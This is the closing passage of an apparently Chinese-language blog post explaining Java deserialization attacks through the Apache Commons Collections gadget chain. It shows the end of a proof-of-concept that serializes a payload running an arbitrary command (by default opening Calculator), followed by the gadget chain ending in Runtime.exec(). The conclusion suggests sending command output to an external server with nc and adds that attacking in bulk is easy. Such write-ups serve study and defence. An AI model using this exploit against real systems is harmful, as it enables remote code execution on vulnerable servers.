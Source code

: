             return instance;
        }   
    
        public static void main(String[] args) throws Exception {
            String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app"; 
    
            Object obj = getAnnotationInvocationHandler(command);
            ObjectOutputStream out = new ObjectOutputStream(System.out);
            out.writeObject(obj);
        }
    }
    

最终用一段调用链可以清晰的描述整个命令执行的触发过程：

    
    
    /*
        Gadget chain:
            ObjectInputStream.readObject()
                AnnotationInvocationHandler.readObject()
                    AbstractInputCheckedMapDecorator$MapEntry.setValue()
                        TransformedMap.checkSetValue()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()  
    
        Requires:
            commons-collections <= 3.2.1
    */
    

# 0x05 总结

* * *

由于水平有限，暂时只能笔止于此。要清楚反序列化问题不单单存在于某种语言里，而是目前的大多数实现了序列化接口的语言都没有对反序列化的对象做安全检查，虽然官方都有文档说不要对不可信的输入数据进行反序列化，但是往往一些框架就喜欢使用序列化来方便不同应用或者平台之间对象的传递，这就促使了反序列化漏洞的形成。

基于 Apache Commons Collections 通用库构造远程命令执行的 POP Gadget 只能说是 Java反序列化漏洞利用中的一枚辅助炮弹而已，如果不从根本上加强反序列化的安全策略，以后还会涌现出更多通用库或者框架的 POP Gadget 能够进行有效的利用。

（最后说说关于回显的问题，由于最后的反射调用是一个级联式的调用，并不允许变量二次使用，所以想要不借助外部直接在当前会话输出执行结果是不可能的（至少我已经尽全力尝试了），最简单的方式当然是在外部服务器上用 nc或者一些其他服务来获取命令返回的信息，具体怎么把执行结果返回到服务端，日过站的你肯定知道。想批量？Yes，so easy！）

# 0x06 参考

* * *
